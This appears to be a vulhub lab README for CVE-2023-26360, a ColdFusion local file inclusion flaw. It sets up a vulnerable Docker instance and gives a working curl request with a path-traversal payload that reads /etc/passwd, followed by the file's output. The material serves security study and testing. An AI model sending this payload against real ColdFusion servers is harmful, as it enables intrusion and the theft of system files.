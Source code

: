 # Adobe ColdFusion: Local File Inclusion Leads to RCE (CVE-2023-26360)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

Adobe ColdFusion versions 2018 Update 15 (and earlier) and 2021 Update 5 (and earlier) are affected by an Improper Access Control vulnerability that could result in local file inclusion and arbitrary code execution in the context of the current user.

## Vulnerable environment

Start a Adobe ColdFusion 2018.0.15:

```
docker compose up -d
```

After a few minutes wait, visit `http://127.0.0.1:8500/CFIDE/administrator/index.cfm` with password `vulhub` to install Adobe ColdFusion.

## Exploit

Simply send following request to server to retrieve `/etc/passwd`:

```
curl -X POST "http://127.0.0.1:8500/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc?method=foo&_cfclient=true" \
     -H "Host: 127.0.0.1:8500" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     --data "_variables={\"_metadata\":{\"classname\":\"../../../../../../../../etc/passwd\"}}"
```

The output would be the contents of `/etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
cfuser:x:999:999::/home/cfuser:/bin/sh
<SNIP>
...
```

Credit: 
- https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2023-26360/README.md

References:

- <https://xz.aliyun.com/t/13392>
